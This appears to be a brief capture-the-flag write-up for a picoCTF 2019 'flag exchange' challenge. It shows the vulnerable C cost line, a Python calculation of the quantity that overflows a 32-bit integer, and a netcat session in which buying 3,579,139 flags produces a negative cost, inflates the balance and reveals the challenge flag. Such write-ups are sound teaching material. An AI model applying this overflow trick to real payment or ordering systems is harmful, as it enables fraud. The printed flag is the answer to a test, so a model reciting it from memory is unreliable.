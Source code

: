 ```c
total_cost = 900 * number_flags;
```

```python3
>>> total_cost = (1 << 31) * 1.5
>>> num_flags = total_cost // 900
>>> num_flags
# => 3579139
```

```
$ nc 2019shell1.picoctf.com 14937
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3579139                        

The final cost is: -1073742196

Your current balance after transaction: 1073743296

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_e062f0fd}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
3

```